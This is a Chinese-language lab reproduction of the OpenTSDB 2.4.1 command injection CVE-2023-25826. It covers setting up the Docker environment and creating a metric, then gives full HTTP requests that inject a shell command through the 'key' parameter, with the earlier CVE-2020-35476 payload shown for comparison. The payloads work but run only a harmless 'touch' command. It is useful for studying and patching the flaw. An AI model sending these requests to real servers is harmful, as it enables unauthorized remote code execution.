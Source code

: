 # OpenTSDB 命令注入漏洞 CVE-2023-25826

## 漏洞描述

OpenTSDB 是一款基于 Hbase 的、分布式的、可伸缩的时间序列数据库。 2.4.1 版本及之前，存在一处命令注入漏洞。 这个漏洞其实是对之前的 CVE-2020-35476 修复不完善导致的，所以整个复现过程也与之前类似。

参考链接：

- [https://www.synopsys.com/blogs/software-security/opentsdb/](https://www.synopsys.com/blogs/software-security/opentsdb/)
- [OpenTSDB/opentsdb#2275](https://github.com/OpenTSDB/opentsdb/pull/2275)

## 环境搭建

Vulhub 执行如下命令启动一个 OpenTSDB 2.4.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到 OpenTSDB 的 Web 接口。

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307171841166.png)

## 漏洞复现

这之前的都和 CVE-2020-35476 一致，也是需要知道一个 metric 的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看 metric 列表。

这里的 metric 列表是空的。但当前 OpenTSDB 开启了自动创建 metric 功能（`tsd.core.auto_create_metrics = true`），所以也可以使用如下 API 创建一个名为`sys.cpu.nice`的 metric 并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 972388800,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307171931111.png)

如果目标 OpenTSDB 存在 metric，且不为空，则无需上述步骤。

发送 CVE-2020-35476 payload ：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

将返回错误：

```
{"err":"'yrange' was invalid. Must be in the format [min:max]."}
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172116456.png)

CVE-2023-25826 绕过修复的一个点，在参数 key 这里：

```shell
# CVE-2020-35476
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json

# CVE-2023-25826
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

发送数据包：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172238155.png)

进入容器中可见 `touch /tmp/awesome_poc` 已成功执行：

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172321376.png)
